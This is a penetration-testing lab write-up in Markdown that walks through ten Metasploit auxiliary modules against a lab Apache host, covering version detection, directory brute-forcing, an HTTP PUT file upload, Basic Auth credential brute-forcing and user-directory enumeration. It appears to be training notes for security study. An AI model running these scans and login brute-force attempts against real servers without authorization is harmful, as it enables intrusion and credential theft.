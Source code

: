 # Apache Enumeration with Metasploit

This lab demonstrates how to enumerate an Apache web server using different Metasploit auxiliary modules. Each module reveals useful information such as server version, hidden directories, login pages, and user directories.

---

## 🧪 Lab Environment
- Target: `victim-1` (Apache 2.4.18 on Ubuntu)
- Tool: `Metasploit Framework`
- Goal: Perform enumeration using Metasploit modules

---

## 🔍 Step-by-Step Enumeration

### 🟢 Step 1: Check Target is Alive
```bash
ping -c 5 victim-1
```

---

### 🧩 Module 1: `http_version`
```bash
use auxiliary/scanner/http/http_version
set RHOSTS victim-1
run
```
> Detects Apache version: `Apache/2.4.18 (Ubuntu)`

---

### 🧩 Module 2: `robots_txt`
```bash
use auxiliary/scanner/http/robots_txt
set RHOSTS victim-1
run
```
> Found disallowed paths:
```
/data
/secure
```

---

### 🧩 Module 3: `http_header`
```bash
use auxiliary/scanner/http/http_header
set RHOSTS victim-1
run
```

#### 🔁 With Target Path:
```bash
set TARGETURI /secure
```
> `/secure` is protected with Basic Auth

---

### 🧩 Module 4: `brute_dirs`
```bash
use auxiliary/scanner/http/brute_dirs
set RHOSTS victim-1
run
```
> Found paths: `/doc`, `/pro`

---

### 🧩 Module 5: `dir_scanner`
```bash
use auxiliary/scanner/http/dir_scanner
set RHOSTS victim-1
set DICTIONARY /usr/share/metasploit-framework/data/wordlists/directory.txt
run
```

---

### 🧩 Module 6: `dir_listing`
```bash
use auxiliary/scanner/http/dir_listing
set RHOSTS victim-1
set PATH /data
run
```
> Directory listing enabled for `/data`

---

### 🧩 Module 7: `files_dir`
```bash
use auxiliary/scanner/http/files_dir
set RHOSTS victim-1
set VERBOSE false
run
```

---

### 🧩 Module 8: `http_put` (File Upload)
```bash
use auxiliary/scanner/http/http_put
set RHOSTS victim-1
set PATH /data
set FILENAME test.txt
set FILEDATA "Welcome To AttackDefense"
run
```

#### 📥 Then verify upload:
```bash
wget http://victim-1/data/test.txt
cat test.txt
```

#### ❌ Delete uploaded file:
```bash
set ACTION DELETE
```

---

### 🧩 Module 9: `http_login`
```bash
use auxiliary/scanner/http/http_login
set RHOSTS victim-1
set AUTH_URI /secure/
set VERBOSE false
run
```
> Valid credentials found: `bob:123321`

---

### 🧩 Module 10: `apache_userdir_enum`
```bash
use auxiliary/scanner/http/apache_userdir_enum
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set RHOSTS victim-1
set VERBOSE false
run
```

> Found user directories:
- rooty
- bin
- games
- nobody
- sync
- …

---

## ✅ Summary

We used 10 different auxiliary modules in Metasploit to:
- Detect Apache version
- Discover hidden paths and login pages
- Upload and remove files
- Enumerate usernames and home directories
- Identify valid login credentials

---

📁 **Store in GitHub path:**  
`service-enumeration/http/metasploit.md`
